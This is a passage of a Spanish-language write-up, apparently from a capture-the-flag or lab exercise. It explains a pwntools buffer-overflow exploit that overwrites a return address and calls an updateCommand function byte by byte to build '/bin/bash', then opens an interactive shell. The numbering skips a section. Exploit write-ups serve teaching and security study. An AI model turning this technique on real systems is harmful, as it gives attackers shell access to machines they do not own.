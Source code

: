 - **`offset = 268`**: Esto establece la cantidad de bytes necesarios para llegar a la dirección de retorno (basado en el tamaño del buffer y el desbordamiento). Se calcula previamente durante la explotación.    
- **`junk = b"A" * offset`**: Se genera una secuencia de **268 bytes de 'A'** que servirán para llenar el buffer hasta el punto en que sobrescriba la dirección de retorno.

### 3. **Comando de la Shell**:

```python
cmd = b"/bin/bash\x00"
```

- **`cmd = b"/bin/bash\x00"`**: Este es el comando que queremos ejecutar una vez que obtengamos el control sobre el flujo de ejecución. En este caso, estamos tratando de ejecutar una shell interactiva de Bash.    
### 5. **Bucle para Sobrescribir Dirección de Retorno y Enviar Comando**:

```python
for i in range(len(cmd)):
    payload = b""
    payload += junk 
    payload += p32(0x80491f3) #updateCommand
    payload += p32(0x8049248) #vuln
    payload += p32(i)         #iteradordelbucle
    payload += p32(u8(cmd[i:i+1])) #caracterDelcmd

    shell.sendlineafter(b"...\n", payload)
```

- **Bucle sobre `cmd`**: Este bucle recorre cada carácter del comando **`/bin/bash`**.
    
    - **`payload = b""`**: Inicializa el payload en cada iteración como un byte vacío.
    - **`payload += junk`**: Se agrega el relleno de **'A'** para llenar el buffer hasta la dirección de retorno.
    - **`payload += p32(0x80491f3)`**: Se agrega la dirección de la función **`updateCommand`**. Esta es la dirección que se invocará durante el desbordamiento del buffer.
    - **`payload += p32(0x8049248)`**: Se agrega la dirección de la función **`vuln`**. Esto también se llama en el proceso de desbordamiento.
    - **`payload += p32(i)`**: Se agrega el índice actual del bucle **`i`**, lo cual se usa para iterar por cada carácter del comando.
    - **`payload += p32(u8(cmd[i:i+1]))`**: Convierte el carácter actual del comando **`cmd[i:i+1]`** en su valor **ASCII** (usando **`u8`**) y lo agrega al payload.
    - **`shell.sendlineafter(b"...\n", payload)`**: Después de preparar el payload, lo envía al binario usando **`sendlineafter`**, esperando la cadena **`"...\n"`** para que se envíe el payload de forma adecuada.

### **Interacción con la Shell**:

```python
shell.interactive()
```

- **`shell.interactive()`**: Permite la interacción con la shell que hemos abierto en el paso anterior. Esto hace que el programa pase al modo interactivo, donde el atacante puede ingresar comandos en la shell obtenida.
